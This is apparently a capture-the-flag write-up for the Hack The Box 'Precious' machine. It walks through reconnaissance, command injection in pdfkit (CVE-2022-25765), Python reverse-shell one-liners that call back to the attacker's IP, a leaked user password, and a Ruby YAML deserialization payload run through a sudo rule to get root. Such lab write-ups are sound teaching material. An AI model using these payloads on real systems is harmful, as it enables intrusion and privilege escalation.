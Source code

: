 # Precious

## Сontents

* [Info Gathering](#info-gathering)
* [Exploiting](#exploiting)
* [User](#user)
* [Root](#root)

## Info Gathering
Let's scan for the open ports:
```
[vecio@vecio ~]$ nmap 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-26 17:07 CEST
Nmap scan report for 10.10.11.189
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.84 seconds
```
There are 2 services open: SSH service on the port 22 and an HTTP server on the port 80.
We can check out the web server, so we add the IP address to the `/etc/hosts` file:
```
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1	localhost
::1		localhost
127.0.1.1	vecio.localdomain	vecio

10.10.11.189	precious.htb
```
Now access the web server on the browser using its domain or the IP address.

The only functionality present is to convert a web page into a PDF file.
We can test that out by starting a python web server and trying to get its PDF file.
```bash
python -m http.server
```
Now enter our IP address followed by the port which the python web server has been opened: `http://10.10.16.79:8000/` and get its PDF file.
We can get more information by reading the file metadata using the `Exiftool`, so `exiftool file.pdf`:
```
ExifTool Version Number         : 12.50
File Name                       : edlaxwm1d82couplf7vpkkm9b4nyht3g.pdf
Directory                       : .
File Size                       : 29 kB
File Modification Date/Time     : 2023:03:26 17:12:58+02:00
File Access Date/Time           : 2023:03:26 17:13:44+02:00
File Inode Change Date/Time     : 2023:03:26 17:12:58+02:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```
We can see that the file has been created by the `pdfkit v0.8.6` ruby package.
We can use Google to search some known vulnerabilities about this package.

## Exploiting
We find [CVE-2022-25765: Command Injection](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) which allows us to inject a command if the URL is not sanitized.
Let's understand how the vulnerability works: an application could be vulnerable if it tries to render a URL that contains query string parameters with user input:
```ruby
PDFKit.new("http://example.com/?name=#{params[:name]}").to_pdf
```
If the provided parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF:
```ruby
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf
```
Calling `to_pdf` on the instance shows that the `sleep` command is indeed executing.
The `%20` is a URL-encoded space character, which allows the attacker to separate the injected command from the rest of the URL.
When PDFKit is used to generate a PDF from a URL, it first converts the URL into a command line argument string that is passed to a command line tool to generate the PDF.

So we can input the URL `` http://10.10.16.79:8000/?name=%20`sleep 5` `` to test the vulnerability and see that the operation takes 5 seconds to get the PDF file, so the website is vulnerable to this exploit.

## Reverse Shell
We can now execute a reverse shell script to get access to the server.
Let's start listening to connections on port `1234` using `Netcat`:
```
nc -lvnp 1234
```
now we can execute a python reverse shell using the exploit entering the following URL `` http://10.10.16.79:8000/?name=%20`export RHOST="10.10.16.79";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'` `` and get access to the server.

## User
Getting the user flag is quite simple, we can see we're logged in as the user `ruby`, looging around the directory `home` we find out that the flag is inside the `henry` directory, but we don't have permission to read the file `user.txt`.
Looking inside the our `ruby` directory using `ls -la` we can see a strange directory called `.bundle`, inside of which there is a file `config`, which contains a credential leak of the user `henry:Q3c1AqGHtoI0aXAYFH`.
We can now switch user or log in using SSH and get the flag: `su henry`.

## Root
First thing we check what commands the user is allowed to execute using `sudo -l`:
```
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
We can see that we can execute the the file `update_dependencies.rb` with ruby as `root` without using a password.
Let's check out that ruby file:
```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
We can see that the `list_from_file` function loads the `dependencies.yml` file using the `YAML.load()` method.
With a bit of research we can find that the `.load()` method is vulnerable to a [YAML Deserialization Attack](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/).
We can use a special payload, writing our own `dependencies.yml` file and make the script execute our code with root privileges:
Let's try the exploit writing our `dependencies.yml` file in the `/home/henry/` directory:
```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "whoami"
         method_id: :resolve
```
and executing it using `sudo /usr/bin/ruby /opt/update_dependencies`.
We can see on top of the error the `root` output, so the command is executed as root.
Our file is executed instead of the original one because the path to the file passed in the method `File.read(dependencies.yml)` is relative, so depends on where the script is executed from, in our case the `/home/henry/` directory.

We can use this vulnerability to get a privileged reverse python3 `/bin/bash` shell on a different port, so we want the script to execute this command: `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.79\",4999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/sh\")'`
So we listen on the port `4999` on our local machine:
```
nc -lvnp 4999
```
and execute the file on the server.
Once we got the `/bin/bash` shell we can `cd /root` and get the flag in the `root.txt` file/

